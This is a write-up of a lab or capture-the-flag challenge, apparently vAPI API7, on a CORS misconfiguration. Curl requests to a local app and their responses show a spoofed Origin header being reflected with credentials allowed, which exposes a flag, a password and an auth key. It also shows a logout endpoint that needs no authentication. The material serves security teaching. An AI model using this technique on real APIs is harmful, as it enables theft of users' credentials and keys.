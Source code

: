 # Security misconfiguration
> Hey , its an API right? so we ARE expecting Cross Origin Requests . We just hope it works fine.

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
```

# Create User
## POST /vapi/api7/user

Create user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"testuser\",\x0d\x0a    \"password\":\"testpassword\"\x0d\x0a}' \
    $'http://localhost/vapi/api7/user'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 16:22:12 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 16:22:12 GMT
Content-Type: application/json

{"username":"testuser","password":"testpassword","id":2}
```

As specified in the Postman Collection, the test script to be executed for the API7 Create User endpoint is used to derive the token (Authorization-Token) by parsing the request JSON data, taking the values of the "username" and "password" key respectively with a colon between the two values, encoding the string in base64 and updates it in the Postman Environment as api7_auth.
```js
var reqData = JSON.parse(request.data);
var api7_username=reqData.username;
var api7_password=reqData.password;
var api7_auth=btoa(api7_username+":"+api7_password);
console.log("API 7 Auth : "+api7_auth);
postman.setEnvironmentVariable("api7_auth",api7_auth);
```

Manually derive the authorization token
```bash
echo -n "testuser:testpassword" | base64
```
```
dGVzdHVzZXI6dGVzdHBhc3N3b3Jk
```
- We will need the Authorization Token for the "User Login" endpoint

# User Login
## GET /vapi/api7/user/login

Log in with the newly created user
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXI6dGVzdHBhc3N3b3Jk' -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:32:31 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=221532f550b93d7ea23c8a895879c99b; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:32:31 GMT
Content-Type: application/json

{"success":"true","msg":"User logged in"} 
```
- Observe that the server gives us a Cookie for a PHP Session ID with a `Set-Cookie` HTTP response header

Cookie
```
PHPSESSID=221532f550b93d7ea23c8a895879c99b;
```
- We will need the PHP Session ID Cookie for the "Get Key" endpoint

# Get Key
## GET /vapi/api7/user/key

Get the user key for the newly created user
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    -b $'PHPSESSID=221532f550b93d7ea23c8a895879c99b' \
    $'http://localhost/vapi/api7/user/key'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:37:54 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:37:54 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

{"id":2,"username":"testuser","password":"testpassword","authkey":"8715a2ddefcf66d851636673949e0de88039da78540725fb94757434e3641643"}
```
- Observe that the HTTP header `Access-Control-Allow-Origin` has a value of `*`
	- This means that any domain is allowed to access this API endpoint, which is a CORS security risk.

Access the API as if it was requested from another domain with the HTTP `Origin` header.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' -H $'Origin: super-malicious-domain.com' \
    -b $'PHPSESSID=221532f550b93d7ea23c8a895879c99b' \
    $'http://localhost/vapi/api7/user/key'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:47:27 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:47:27 GMT
Content-Type: application/json
Access-Control-Allow-Origin: super-malicious-domain.com
Access-Control-Allow-Credentials: true

{"flag":"flag{api7_e71b65071645e24ed50a}","user":{"id":2,"username":"testuser","password":"testpassword","authkey":"8715a2ddefcf66d851636673949e0de88039da78540725fb94757434e3641643"}}
```

API7 Flag
```
flag{api7_e71b65071645e24ed50a}
```

# Additional Information

# User Logout
## GET /vapi/api7/user/logout

Seems like we do not need to specify any cookie or authentication for this user logout endpoint, showing more misconfigurations.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/logout'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:41:17 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=8b8988055ed48a163de0555b351884e3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:41:17 GMT
Content-Type: application/json

{"success":"true","msg":"User logged out"}
```


```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/logout'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:41:29 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=aacd39bf4bdc8f3959258d3e83077c71; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:41:29 GMT
Content-Type: application/json

{"success":"true","msg":"User logged out"}
```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api7/user/logout'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 17:41:32 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=fa59a46abb4729141976c22dbb8f17de; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:41:32 GMT
Content-Type: application/json

{"success":"true","msg":"User logged out"}
```

References:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie
https://owasp.org/API-Security/editions/2019/en/0xa7-security-misconfiguration/
https://owasp.org/API-Security/editions/2023/en/0xa8-security-misconfiguration/
